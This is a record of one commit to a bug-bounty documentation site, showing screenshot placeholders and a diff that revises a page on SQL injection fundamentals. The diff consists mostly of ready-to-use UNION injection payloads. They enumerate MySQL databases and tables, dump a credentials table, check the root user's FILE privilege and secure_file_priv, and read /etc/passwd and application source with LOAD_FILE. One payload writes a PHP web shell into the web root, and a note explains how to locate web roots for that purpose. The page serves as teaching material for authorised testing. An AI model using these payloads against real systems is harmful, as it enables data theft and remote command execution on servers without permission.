

Before and after one commit to variable190/BugBounty, an MkDocs documentation site: the page built from docs/bug-bounty-guide/sql-injection-fundamentals.md, in a window 1280 px wide and 1400 px high, scrolled down 7067 px. Shown: the whole window at 82% size. Built offline with MkDocs 1.6.1 and Material for MkDocs 9.7.7, drawn with Linux system fonts in a browser that asks for light colours; before the commit the page ends 7954 px from its top, so only the background shows below that; some of the changed text lies outside the part shown.

Commit message:
update sql injection fundamentals

```diff
--- a/docs/bug-bounty-guide/sql-injection-fundamentals.md
+++ b/docs/bug-bounty-guide/sql-injection-fundamentals.md
@@ -154,7 +154,7 @@ MySQL evaluates AND before OR, so a query with an OR and a TRUE condition (e.g.,
 
 [Payload all the things: authentication bypass section](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/SQL%20Injection#authentication-bypass)
 
-**Note:**  Line comments with -- or #, in-line comment with /**/.
+**Note:**  Line comments with `--` or `#`, in-line comment with `/**/`.
 
 ### Union Injection
 
@@ -180,8 +180,8 @@ MySQL evaluates AND before OR, so a query with an OR and a TRUE condition (e.g.,
 
 | Payload | Description |
 |---------|-------------|
-| `cn' UNION select 1,database(),2,3-- -` | Current database name  |
-| `cn' UNION select 1,schema_name,3,4 from INFORMATION_SCHEMA.SCHEMATA-- -` | List all databases |
+| `cn' UNION select 1,database(),3,4-- -` | Current database name  |
+| `cn' UNION select 1,schema_name,3,4 from INFORMATION_SCHEMA.SCHEMATA-- -` | List all databases (mysql, information_schema and performance_schema are default MySQLdatabases ) |
 | `cn' UNION select 1,TABLE_NAME,TABLE_SCHEMA,4 from INFORMATION_SCHEMA.TABLES where table_schema='dev'-- -` | List all tables in a specific database |
 | `cn' UNION select 1,COLUMN_NAME,TABLE_NAME,TABLE_SCHEMA from INFORMATION_SCHEMA.COLUMNS where table_name='credentials'-- -` | List all columns in a specific table |
 | `cn' UNION select 1, username, password, 4 from dev.credentials-- -` | Dump data from a table in another database |
@@ -190,15 +190,26 @@ MySQL evaluates AND before OR, so a query with an OR and a TRUE condition (e.g.,
 
 | Payload | Description |
 |---------|-------------|
-| `cn' UNION SELECT 1, user(), 3, 4-- -` | Find current user |
-| `cn' UNION SELECT 1, super_priv, 3, 4 FROM mysql.user WHERE user="root"-- -` | Find if user has admin privileges |
-| `cn' UNION SELECT 1, grantee, privilege_type, is_grantable FROM information_schema.user_privileges WHERE grantee="'root'@'localhost'"-- -` | Find if all user privileges |
-| `cn' UNION SELECT 1, variable_name, variable_value, 4 FROM information_schema.global_variables where variable_name="secure_file_priv"-- -` | Find which directories can be accessed through MySQL |
+| `cn' UNION SELECT 1, user(), 3, 4-- -` or `cn' UNION SELECT 1, user, 3, 4 from mysql.user-- -` | Find current user |
+| `cn' UNION SELECT 1, super_priv, 3, 4 FROM mysql.user WHERE user="root"-- -` | Find if "root" user has admin privileges |
+| `cn' UNION SELECT 1, grantee, privilege_type, is_grantable FROM information_schema.user_privileges WHERE grantee="'root'@'localhost'"-- -` | Show all of the "root" user's privileges, "FILE" privilege allows the user to read files |
+| `cn' UNION SELECT 1, variable_name, variable_value, 4 FROM information_schema.global_variables where variable_name="secure_file_priv"-- -` | Find which directories can be accessed through MySQL. If "variable_value" is empty then we can read/write files to any location |
+
+#### Write File Privileges
+
+To be able to write files to the back-end server using a MySQL database, we require three things:
+
+- User with FILE privilege enabled
+- MySQL global secure_file_priv variable not enabled
+- Write access to the location we want to write to on the back-end server
 
 ### File Injection
 
 | Payload | Description |
 |---------|-------------|
 | `cn' UNION SELECT 1, LOAD_FILE("/etc/passwd"), 3, 4-- -` | Read local file |
-| `select 'file written successfully!' into outfile '/var/www/html/proof.txt'` | Write a string to a local file |
-| `cn' union select "",'<?php system($_REQUEST[0]); ?>', "", "" into outfile '/var/www/html/shell.php'-- -` | Write a web shell into the base web directory |
+| `cn' UNION SELECT 1, LOAD_FILE("/var/www/html/search.php"), 3, 4-- -` | Another read local file example, useful to see how backend queries are handled |
+| `cn' UNION select 1,'file written successfully!',3,4 INTO OUTFILE '/var/www/html/proof.txt'-- -` | Write a string to a local file |
+| `cn' UNION SELECT "",'<?php system($_REQUEST[0]); ?>', "", "" INTO OUTFILE '/var/www/html/shell.php'-- -` | Write a web shell into the base web directory |
+
+**Note:** Web shells must be written to the base web directory for the web server (i.e. web root). Use load_file to read the server configuration at /etc/apache2/apache2.conf, /etc/nginx/nginx.conf or %WinDir%\System32\Inetsrv\Config\ApplicationHost.config are a few examples. Could also run a fuzzing scan and try to write files to different possible web roots, using [Linux wordlist](https://github.com/danielmiessler/SecLists/blob/master/Discovery/Web-Content/default-web-root-directory-linux.txt) or [Windows wordlist](https://github.com/danielmiessler/SecLists/blob/master/Discovery/Web-Content/default-web-root-directory-windows.txt). We can also use server errors to possibly display the web root.
```
Also changed, not shown: docs/bug-bounty-guide/using-web-proxies.md (+1 -0 lines).
